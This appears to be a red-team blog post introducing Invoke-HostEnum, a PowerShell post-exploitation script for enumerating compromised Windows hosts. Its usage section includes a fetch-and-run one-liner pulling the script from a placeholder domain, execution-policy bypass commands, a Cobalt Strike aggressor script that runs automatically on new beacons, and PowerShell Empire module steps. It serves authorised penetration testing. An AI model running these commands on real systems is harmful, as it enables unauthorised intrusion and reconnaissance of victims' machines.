



## Overview

During a Red Team engagement, performing detailed Situational Awareness (SA) or enumeration on initial and subsequent host compromises is vital. Every good pen-tester or red teamer has their list of go-to scripts, commands, or "pasties" to run once initial shell access is achieved. The goal is to quickly learn as much about your environment as possible; including defenses, system configuration, interesting files, and opportunities for persistence and lateral movement. Moreover, when working in large and/or distributed teams, a common tool-base and procedure set is crucial to ensure that necessary enumeration is accomplished no matter who's behind the keyboard.

<!-- truncate -->
The first shell is often achieved on a host running the Microsoft Windows Operating System after a phishing/social-engineering attack or Web Application exploit. This makes PowerShell an excellent choice for automating post-exploitation and SA tasks. **Invoke-HostEnum** is a PowerShell 2.0 compatible enumeration script intended to be executed through a remote access capability such as Cobalt Strike's Beacon, Empire, or even a web-shell. All output is pre-formatted into Tables or Lists and converted to a string before returning results for this reason. Earlier internal versions of the script contained many more privilege escalation checks, but the continued development and robustness of [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) made these mostly redundant.

There are several good examples of PowerShell host enumeration tools including[ HostRecon](https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1) by Beau Bullock and [Invoke-WinEnum](https://github.com/EmpireProject/Empire/tree/master/data/module_source/situational_awareness/host) in PowerShell Empire. Invoke-HostEnum borrows functions from these and other modules annotated throughout its source. There was a similarly named Invoke-HostEnum function in PowerView that was [removed](http://www.harmj0y.net/blog/redteaming/powerview-2-0/) in 2015, but this is not a resurrected version.

I've started to remove many (but not all) binary dependencies to avoid triggering potential alerts from running numerous common built-in Windows command-line enumeration tools in rapid succession. However, there is always room for improvement and contributions and suggestions to the Github repository are highly encouraged!

## Features

The following is a comprehensive list of the items currently enumerated by Invoke-HostEnum. Some enumerations functions require local administrator rights for best results and will result in no or limited results when run under a limited user context.

- OS Details, Hostname, Uptime, Installdate, Architecture
- Installed Applications and Patches
- Network Adapter Configuration, Network Shares, Connections, Routing Table, DNS Cache
- Running Processes (with full command line) and Installed Services
- Interesting Registry Entries (SNMP strings, Saved Putty Sessions)
- Local Users, Groups, and Administrators
- Personal Security Product Status
- Interesting file locations (Current User Profile) and keyword searches via file indexing
- Recycle Bin Contents
- Interesting Windows Logs (Get-ComputerDetails – Logon Events, AppLocker logs, PowerShell logs, RDP servers)
- Basic Domain enumeration (users, groups, trusts, domain controllers, account policy, SPNs)-Explicit Credential Logons (Event ID 4648)

As usual, you can get the latest version of tools on our GitHub repository.

## Usage

### Command Line

Execute locally hosted script with console output

```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Domain
```

Download and execute remotely hosted script

```
powershell -nop -c IEX (New-Object Net.Webclient).downloadstring("""http://yourdomain/Invoke-HostEnum.ps1""");Invoke-HostEnum -Local
```

Execute locally hosted script with HTML report output. If you want the mostly easily readable format and don't mind writing a file to disk, consider using the "-Path" option to specify a directory for an HTML formatted report

```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Path c:programdata
```

 **Invoke-HostEnum HTML Report**

### Cobalt Strike

Import script and execute interactively in a Beacon console

```
powershell-import ./scripts/Invoke-HostEnum.ps1
powershell Invoke-HostEnum -Local -Domain
```

Automatic execution – Use [aggressor](https://www.cobaltstrike.com/aggressor-script/index.html) script to fire upon new beacon arrivals. This is ideal to implement on your initial interactive/phishing callback Team Server where you want to gather information in the target environment and may be away from the console. Consider combining with a Slack notification script as described in our previous post [Slack Notifications for Cobalt Strike ](http://threatexpress.com/2016/12/slack-notifications-for-cobalt-strike/)or as thoroughly explained by Jeff Dimmock in [Slack Bots for Trolls and Work](https://bluescreenofjeff.com/2017-04-11-slack-bots-for-trolls-and-work/). **Note:** This code would require slight modification to work for DNS beacons if desired.

```bash
on beacon_initial {
    enumerate($1);
}

sub enumerate {
    if ( -exists script_resource("scripts/Invoke-HostEnum.ps1")) {
    binput($1,"[*] Executing Invoke-HostEnum");
    bpowershell_import($1, script_resource("scripts/Invoke-HostEnum.ps1"));
    bpowershell($1, "Invoke-HostEnum -Local -Domain");
    }
    else {
    berror($1, "Invoke-HostEnum.ps1 does not exist");
    }
}
```

 **Invoke-HostEnum Execution in Cobalt Strike**

### **PowerShell Empire**

I've also created a basic post-exploitation module for Empire (hostenum.py) that makes executing on an Empire agent extremely easy.

Copy scripts to the appropriate Empire path

```
cp Invoke-HostEnum.ps1 /data/module_source/situational_awareness/host
cp hostenum.py /lib/modules/situational_awareness/host
```

Start Empire

```
# ./empire
```

Interact with agent

```
(Empire) > interact
```

Execute the module

```
(Empire: BX1HBE3MZAWGF1BB) > usemodule situational_awareness/host/hostenum
(Empire: situational_awareness/host/hostenum) > run
```

 **Invoke-HostEnum Empire Module**

---

## Credits

Several functions are inspired or pulled directly from the following projects and are referenced in the code where applicable. Any omissions are not intentional. Thanks to the following authors and projects for the great work!

---
